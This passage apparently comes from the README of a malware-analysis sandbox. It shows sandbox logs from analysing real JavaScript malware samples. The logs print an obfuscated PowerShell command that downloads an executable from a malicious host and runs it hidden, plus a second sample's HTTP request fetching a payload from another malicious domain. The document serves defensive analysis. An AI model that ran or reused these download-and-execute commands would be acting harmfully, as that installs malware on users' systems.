     11 Jan 00:08:42 - The sandbox context has been  saved to: sandbox_dump_after.json

In the above example the payload has been extracted into output/_TEMP__49629482.dll and output/_TEMP__38611354.pdf

## Examples ##

The [malware](malware) folder contains real-world malware samples. Most of them downloaded from https://malwr.com. 

Please see [EXAMPLES](EXAMPLES.md) for complete index of malware samples.

### Example: Analysing Wileen.js ###

Taking malicious script from malwr.com: [Wileen.js](https://malwr.com/analysis/NTVkZDQ4MGZkZWE4NDAyM2EwODEyMDM3MDhjMDI1MTQ/)

Apparently the malware does not execute if run from within a browser:

	if (typeof document == "undefined") {

Therefore you may want to use an alternate config filem which does not load browser/DOM components:

    node jailme.js --down=y -c ./config_wscript_only.json  malware/20161001/a6dfd6b83d46702c0b408bd5f669e08c785cd12fdd515fe469595e2a3d44ddc4.js 

Interesting use of Powershell:
    
    1 Oct 13:05:34 -  => Executing: malware/20161001/a6dfd6b83d46702c0b408bd5f669e08c785cd12fdd515fe469595e2a3d44ddc4.js
    1 Oct 13:05:34 - ActiveXObject(WScRipT.SHEll)
    1 Oct 13:05:34 - Created: WScript.Shell[1]
    1 Oct 13:05:34 - WScript.Shell[1].Run(cmD.EXE /c POWE^R^s^he^lL.eXE     -ExEc^U^Tio^n^p^oLIC^y^   B^Y^pas^S -NOpro^Fi^L^e^    -^W^InD^Ow^sT^yle^  HI^ddeN^  (^Ne^W^-^OBJ^ecT^     S^YST^EM.net.Webc^L^I^E^n^T^).^dOWn^L^Oa^d^fI^lE^(^'http://click.doubledating.ru/js/boxun4.bin','%appdatA%.exE')^;^stA^Rt-^p^rO^c^eS^s  ^'%aPpdata%.eXe', false, undefined)
    1 Oct 13:05:34 - ==> Cleaning up sandbox.
    1 Oct 13:05:34 - ==> Script execution finished, dumping sandbox environment to a file.
    1 Oct 13:05:34 - The sandbox context has been  saved to: sandbox_dump_after.json
    
Log file: [malware/20161001/a6dfd6b83d46702c0b408bd5f669e08c785cd12fdd515fe469595e2a3d44ddc4.out](malware/20161001/a6dfd6b83d46702c0b408bd5f669e08c785cd12fdd515fe469595e2a3d44ddc4.out)

### Example: Analysing ORDER-10455.js ###

Taking malicious JavaScript from malwr.com: [ORDER-10455.js](https://malwr.com/analysis/NDU1ZDA4NmY3ZGUyNDczZjg0ODU2OGZiZTMxNjA5NzE/)

First run without interaction with remote servers:

    node jailme.js malware/20160929/416e32e1b22ecb8f360ff841b87d77ac9450fda24458ce4e70abb35ff4d242a3.js

you get something like:
    
    ... 
    29 Sep 23:17:21 - Calling eval() no.: 5
    29 Sep 23:17:21 - ActiveXObject(MSXML2.XMLHTTP)
    29 Sep 23:17:21 - Created: MSXML2.XMLHTTP[9]
    29 Sep 23:17:21 - MSXML2.XMLHTTP[9].open(GET,http://caopdjow.top/user.php?f=0.dat,false)
    29 Sep 23:17:21 - MSXML2.XMLHTTP[9].send(undefined)
    29 Sep 23:17:21 - MSXML2.XMLHTTP[9] Not sending data, if you want to interact with remote server, set --down=y
    29 Sep 23:17:21 - MSXML2.XMLHTTP[9].responseBody = 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa ... (truncated)'
    29 Sep 23:17:21 - MSXML2.XMLHTTP[9].status = '200'
    29 Sep 23:17:21 - MSXML2.XMLHTTP[9].send(undefined) finished
    29 Sep 23:17:21 - MSXML2.XMLHTTP[9].status.get() => 200
    29 Sep 23:17:21 - MSXML2.XMLHTTP[9].ResponseBody.get() => aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa ... (truncated)
    29 Sep 23:17:21 - ActiveXObject(Scripting.FileSystemObject)